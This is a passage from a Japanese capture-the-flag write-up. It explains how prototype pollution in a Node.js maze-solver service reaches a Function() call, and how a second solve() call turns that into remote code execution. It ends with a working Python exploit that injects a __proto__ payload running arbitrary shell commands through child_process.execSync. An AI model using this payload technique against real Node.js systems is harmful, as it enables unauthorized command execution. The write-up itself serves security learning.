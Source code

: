 さらに `heap` に空文字列を仕込んでおけば、`Solver` のコンストラクタの `if (heap) { this.heap = heap; // type of priority queue }` という処理によって `Solver` の `heap` プロパティが `undefined` になります。`solve` メソッドが呼び出されたときの `const heap = this.heap || 'BinaryHeap';` ではプロトタイプチェーンを辿っていくうちに `Object.prototype.heap` にアクセスされ、このとき `heap` に `abc` という文字列が代入されます。そして、この文字列の前後に文字列が結合されて `Function` に渡され、これが呼び出されることで RCE が実現できます。 

ただ、`deepcopy` が呼び出されるのは `Solver` の `solve` メソッドが呼び出されたあと、つまり `Function` が呼び出されたあとですから、RCE に持ち込むには `Solver` の `solve` メソッドが 2 回呼び出される必要があります。

ここで `solve.js` をもう一度見てみましょう。

```javascript
// Solve maze
var ms = new maze.Solver(map, start, goal, heap);
var result = ms.solve() !== undefined ? ms.solve() : 'impossible';
```

返り値が `undefined` でなければ、つまり迷路が解ければもう一度 `Solver` の `solve` メソッドが呼ばれています。RCE チャンス! 攻撃するスクリプトを書きましょう。

```python
import requests
import json
import sys

HOST, PORT = '(省略)', 14002

maze = {
    "map": [
        [1, 1, 1, 1, 1, 1, 1, 1, 1, 1],
        [1, 0, 0, 0, 0, 0, 0, 0, 0, 1],
        [1, 0, 1, 1, 1, 0, 1, 1, 1, 1],
        [1, 0, 0, 0, 1, 0, 1, 0, 1, 1],
        [1, 1, 1, 0, 1, 0, 0, 0, 0, 1],
        [1, 0, 0, 0, 1, 1, 1, 1, 0, 1],
        [1, 0, 1, 1, 1, 0, 0, 0, 0, 1],
        [1, 0, 1, 0, 1, 0, 1, 1, 1, 1],
        [1, 0, 0, 0, 1, 0, 0, 1, 1, 1],
        [1, 0, 1, 0, 0, 0, 0, 0, 0, 1],
        [1, 1, 1, 1, 1, 1, 1, 1, 1, 1],
    ],
    "start": {
      0: 1,
      1: 1,
      '__proto__': {
        '__proto__': {
          'heap': "BinaryHeap({comparator:c})&&console.log(process.mainModule.require('child_process').execSync('" + sys.argv[1] + "').toString());//"
        }
      }
    },
    "goal": (8, 9),
    "heap": ""
}

r = requests.post(f"http://{HOST}:{PORT}/solve",
                  headers = {"Content-Type": "application/json"},
                  data = json.dumps(maze))
print(r.text)
```
